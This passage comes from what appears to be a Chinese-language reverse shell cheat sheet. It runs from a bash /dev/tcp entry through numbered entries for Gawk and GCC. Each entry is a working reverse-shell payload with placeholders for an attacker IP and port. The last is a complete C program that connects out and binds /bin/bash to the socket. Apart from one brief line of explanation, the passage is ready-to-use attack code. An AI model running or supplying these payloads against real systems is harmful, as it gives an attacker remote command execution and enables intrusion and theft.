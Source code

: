 	  
创建一个文件描述符，指向TCP连接的socket，将文件描述符指代对象的输出流向cat命令，将stdin作为文件描述符指代对象的输入。  
> exec 196<>/dev/tcp/[: ip]/[: port]; exec 2>&0 0<&196;bash <&196 >&196 2>&196  
  
  
**05**  
  
  
**Gawk**  
  
> gawk 'BEGIN{s="/inet/tcp/0/[: ip]/[: port]";for(;s|&getline c;close(c))while(c|getline)print|&s;close(s)}  
  
  
  
**06**  
  
  
**GCC**  
  
```
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <signal.h>
#include <dirent.h>
#include <sys/stat.h>

int tcp_port = [: port];
char *ip = "[: ip]";

void reverse_shell(){
        int fd;
        if ( fork() <= 0){
                struct sockaddr_in addr;
                addr.sin_family = AF_INET;
                addr.sin_port = htons(tcp_port);
                addr.sin_addr.s_addr = inet_addr(ip);

                fd = socket(AF_INET, SOCK_STREAM, 0);
                if ( connect(fd, (struct sockaddr*)&addr, sizeof(addr)) ){
                        exit(0);
                }

                dup2(fd, 0);
                dup2(fd, 1);
                dup2(fd, 2);
                execve("/bin/bash", 0LL, 0LL);
        }
        return;
}

int main(int argc, char const *argv[])
{
        reverse_shell();
        return 0;
}
```  
```
```  
  